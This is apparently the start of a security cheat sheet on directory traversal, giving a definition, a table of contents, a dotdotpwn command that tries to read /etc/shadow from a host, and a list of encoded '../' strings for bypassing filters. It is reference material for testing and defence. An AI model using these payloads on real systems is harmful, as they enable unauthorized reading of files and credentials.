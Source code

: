 # Directory Traversal

> Path Traversal, also known as Directory Traversal, is a type of security vulnerability that occurs when an attacker manipulates variables that reference files with “dot-dot-slash (../)” sequences or similar constructs. This can allow the attacker to access arbitrary files and directories stored on the file system.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [URL Encoding](#url-encoding)
    * [Double URL Encoding](#double-url-encoding)
    * [Unicode Encoding](#unicode-encoding)
    * [Overlong UTF-8 Unicode Encoding](#overlong-utf-8-unicode-encoding)
    * [Mangled Path](#mangled-path)
    * [NULL Bytes](#null-bytes)
    * [Reverse Proxy URL Implementation](#reverse-proxy-url-implementation)
* [Exploit](#exploit)
    * [UNC Share](#unc-share)
    * [ASPNET Cookieless](#asp-net-cookieless)
    * [IIS Short Name](#iis-short-name)
    * [Java URL Protocol](#java-url-protocol)
* [Path Traversal](#path-traversal)
    * [Linux Files](#linux-files)
    * [Windows Files](#windows-files)
* [Labs](#labs)
* [References](#references)

## Tools

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - The Directory Traversal Fuzzer

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Methodology

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
